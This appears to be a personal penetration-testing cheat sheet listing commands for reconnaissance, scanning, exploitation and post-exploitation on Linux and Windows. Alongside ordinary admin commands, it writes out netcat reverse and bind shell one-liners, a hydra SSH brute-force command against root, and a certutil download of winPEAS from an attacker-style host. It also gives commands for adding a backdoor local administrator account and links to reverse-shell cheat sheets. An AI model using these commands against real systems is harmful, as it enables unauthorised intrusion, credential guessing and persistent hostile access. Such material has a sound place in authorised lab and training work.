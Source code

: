 **user / app**
`history`
`service x start`
`systemctl enable x`
`systemctl list-timers`
lists timers waiting to run

type any one of the following command to find os name and version in Linux:
`cat /etc/os-release`
`lsb_release -a`
`hostnamectl`

**network**
`ping -c 1`
obvious
`ifconfig`
`arp -a`
ip to mac ident
`arp-scan -l`
replacement to netdiscover (look for vmware and self)
`netstat -ano`
all ports that are open, what's connected to those ports
`route`
list routing table
`nc`
- example reverse\
target: nc 192.168.129.129 4444 -e /bin/bash\
attacker: nc -nvlp 4444
- example bind\
target: nc -nlvp 444 -e /bin/bash\
attacker: nc 192.168.129.129 444
- on both: first listen, then connect

**services / clients**
`smbclient -L \\host`
`smbclient \\\\host\\share`
connect to the fileshare, list shares

**scanning & enum**
`whatweb`
gather info, versions to lookup vulnerabilities & exploits
`burp suite`
web proxy for intercepting traffic from/to a website
`nmap -p 80 -T4 $ip`
`nmap -T4 -p- -A`
-sn: Ping scan
-Pn: treat all hosts as online
-sU: UDP scan (connection-less > 65k ports, very slow to scan)
`nikto -h https://host`
web vulnerability scanner
`dirbuster`
directory busting, alternatives: `dirb`, `gobuster`
`ffuf -w list.txt:FUZZ -u http://host/FUZZ`
webapp directory fuzzer
`nessus`
vulnerability scanner, extra layer of assesment
`python -m http.server 80`
setup a webserver
`dnsrecon -r 127.0.0.0/24 -n 192.168.129.135`\
reverse search an ip on a given dns server
a webserver might be listening for a specific domain (set on local /etc/hosts					)

**exploit**
`msfcconsole`
`burp suite`
`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.129.130:22 -t 4 -V`
brute force tool (can do the same with metasploit)

`linpeas`
`winpeas`
search for possible paths to escalate privileges
`pspy`
Monitor linux processes without root permissions 
`unix reverse shells one liners`
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
`windows reverse shells one liners`
https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/
`Unix binaries that can be used to bypass local security restrictions`
https://gtfobins.github.io/

**post**
`hash-identifier`
come up with encryption method of hash
`hashcat`
attempt crack on hashed string
https://www.makeuseof.com/use-hashcat-to-crack-hashes-linux/
`empire`
https://www.ivoidwarranties.tech/posts/pentesting-tuts/empire/guide/
`systeminfo`
on windows get information about the host
`cerutil.exe`
download files (ala wget)
certutil.exe -urlcache -split -f "http://10.10.14.1:8000/winPEAS.bat" winPEAS.bat

`sc stop`
stop processes by name on windoz

```find / -perm -u=s -type f 2>/dev/null```
Find SUID
```find / -perm -g=s -type f 2>/dev/null```
Find GUID
`net user bacon ihazpassword /ADD`
Looking at the output of the ‘net user bacon ihazpassword /ADD’, we have successfully added a user account named “bacon”, from there we could issue **net localgroup administrators bacon /ADD** to get a local administrator on the system itself. We have full control over the system at this point.